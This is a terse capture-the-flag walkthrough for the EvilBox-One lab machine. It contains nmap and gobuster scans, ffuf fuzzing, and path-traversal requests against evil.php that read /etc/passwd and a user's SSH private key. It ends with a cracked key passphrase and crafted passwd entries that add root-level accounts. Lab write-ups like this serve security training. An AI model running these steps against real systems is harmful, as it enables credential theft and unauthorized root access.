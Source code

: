 SS----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# EvilBox-One
# 3/1/2023

----------------------------------------------------
# nmap result / exploitation
----------------------------------------------------
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))



└─$ gobuster dir -u http://192.168.75.212/secret -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php
http://192.168.75.212/secret/evil.php

 ffuf -u ‘http://192.168.1.21/secret/evil.php?FUZZ=/etc/passwd’ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -fs 0


 http://192.168.75.212/secret/evil.php?command=/../../../../etc/passwd

 http://192.168.75.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa
 unicorn          (id_rsa)     

$1$n5MNRFce$IqIMbAmFoYh6M93bjwaht/
abc

shub:$1$KifAwBLs$.cDn/iZ5OvQVXo9e/P2el0:0:0:root:/root:/bin/bash
hacker2:$1$abc$l.v9MnhgHlYBMhmsc8j3O1:0:0:root:/root:/bin/bash
```

